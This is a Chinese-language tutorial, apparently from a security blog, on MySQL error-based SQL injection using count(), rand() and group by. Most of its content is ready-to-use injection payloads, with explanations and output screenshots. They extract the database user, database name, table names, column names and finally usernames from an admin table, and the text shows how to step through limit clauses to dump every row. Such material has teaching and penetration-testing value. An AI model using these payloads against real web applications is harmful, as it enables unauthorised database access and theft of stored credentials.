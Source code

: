 利用count()、rand()、group by报错注入

关于这三个组合就能报错的原理请看：[Mysql报错注入原理分析（count()、rand()、group by）](http://www.ixysec.com/Mysql%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86%E5%88%86%E6%9E%90%EF%BC%88count%E3%80%81rand%E3%80%81group-by%EF%BC%89.html)

payload：
```
and (select 1 from((select count(*),(concat(user(),0x7e,floor(rand(0)*2)))x from information_schema.tables group by x))a)  //查询当前数据库用户
```
![](http://image.ixysec.com/image/sql/sql065.png)

下面我们来拆分解读一下这个语句。
核心：
```
select count(*),(concat(user(),0x7e,floor(rand(0)*2)))x from information_schema.tables group by x
```
concat()是连接字符串的，将参数连接到一起
这条语句直接复制到数据库里执行就可以爆出用户名，具体原理看上面的文章。

因为and后面不能直接跟select语句，所以只能包在（）中作为子查询；又因为and后面操作数的结果只能包含一列，所以将报错语句包含在`and (select 1 from ()a)`的()中作为这条语句的子查询才能够正常报错返回结果。

查询数据库名
```
and (select 1 from(select count(*),(concat(database(),0x7e,floor(rand(0)*2)))x from information_schema.tables group by x)a)
```
![](http://image.ixysec.com/image/sql/sql066.png)

查询表名
```
and (select 1 from(select count(*),(concat((select table_name from information_schema.tables where table_schema=0x73716C696E limit 0,1),0x7e,floor(rand(0)*2)))x from information_schema.tables group by x)a)   //查询第一条表名
```
其实就是把查询库名的database()的地方换成又一条子查询语句来查询表名，由于concat的参数一次只接收一个结果，所以利用`limit`子句控制只显示一条。只需要更改 limit 1,1 便可显示下一条，以此类推可以遍历出所有表名。

![](http://image.ixysec.com/image/sql/sql067.png)

查询字段名

```
and (select 1 from(select count(*),(concat((select column_name from information_schema.columns where table_name=0x61646D696E limit 0,1),0x7e,floor(rand(0)*2)))x from information_schema.tables group by x)a)
```
想遍历所有字段名方法同上，只需更改limit子句的值。
![](http://image.ixysec.com/image/sql/sql068.png)

查询数据

```
and (select 1 from(select count(*),(concat((select username from admin limit 0,1),0x7e,floor(rand(0)*2)))x from information_schema.tables group by x)a)  //查询数据时是从刚刚查到的表中去查，from后面直接跟表名就行了
```
查询其他字段的内容只需更改字段名，同样修改limit子句可遍历多条。
